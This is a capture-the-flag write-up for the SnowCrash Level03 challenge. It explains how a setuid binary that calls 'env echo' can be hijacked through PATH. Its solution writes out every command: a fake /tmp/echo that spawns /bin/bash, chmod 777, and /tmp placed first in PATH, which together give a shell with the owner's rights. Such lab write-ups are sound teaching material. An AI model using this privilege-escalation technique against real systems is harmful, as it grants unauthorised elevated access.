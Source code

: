 # Level03

## Research
------------

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

level03@SnowCrash:~$ whoami
level03

level03@SnowCrash:~$ groups
level03 users
```

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

- How can I make this program run getflag ?

```bash
level03@SnowCrash:~$ ./level03
Exploit me

level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line

`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`

## Solution
-----------

If we make a fake echo function, then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

- Steps:

  - Make a fake echo function
      ```bash
      echo "/bin/bash" > /tmp/echo
      ```
      This will create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission.
      
  - Make this script executabled by flag03
      ``` bash
      chmod 777 /tmp/echo
      ```
      
  - Change path
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      ``` bash
      export PATH=/tmp:$PATH
      ```
      ```bash
      level03@SnowCrash:~$ env
      [...]
      PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
      [...]
      ```
      We added tmp directory at the start of the path.


```bash
level03@SnowCrash:~$ ./level03
```

You are now flag3 because you "opened" a new shell with the rights of flag03.

You can now launch `getflag`.

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

